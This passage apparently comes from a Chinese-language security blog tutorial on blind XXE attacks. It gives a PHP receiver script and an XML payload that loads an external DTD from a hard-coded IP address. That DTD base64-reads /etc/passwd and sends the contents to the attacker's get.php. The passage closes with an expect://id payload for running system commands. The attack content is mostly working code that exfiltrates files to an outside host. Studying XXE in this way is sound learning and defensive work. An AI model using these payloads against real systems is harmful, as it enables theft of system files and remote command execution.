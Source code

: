 get.php

```php
<?php
file_put_contents('xxe.txt', $_GET['xxe']);
?>
```

payload

```xml
<!ENTITY % remote SYSTEM "http://112.74.35.205/XXE/1.dtd">
%remote;
]>
```

外部dtd文件内容：

```dtd
<!ENTITY % payload	SYSTEM	 "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">

<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://112.74.35.205/get.php?xxe=%payload;'>">

%int;
%trick;
```

这个did文件，引用了外部实体`/etc/passwd`作为payload的值，然后又将payload拼接到url上，进行http请求

接收到请求的get.php就将这个文件内容保存到xxe.txt中了，形成了一个文件读取的过程，最后保存到主机上

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpxnie8fztj30i80dsafq.jpg)

这里还遇到一个问题，当我把`get.php`放在与外部dtd文件同一个目录下时，就没有办法创建这个文本，但是当我放在不同目录下时就能够成功创建（并不是权限问题）

之前提到过说使用base64过滤器是为了特殊字符的干扰，然而换成别的没有特殊字符的普通纯文本文件的时候，发现如果不使用php协议中的base64过滤器，就无法接受到文件内容，只有当我们使用了base64过滤器时，我们才成功得到了文本内容

由此可以猜想：

* 在blind XXE中必须使用php协议，而且必须使用base64过滤器
* 使用base64过滤器并不是“由于特殊符号对于XML的影响”这一原因

### XXE危害

#### 读取任意文件

这个我们上面已经详细分析过了

#### 执行系统命令

在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令

```Xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```
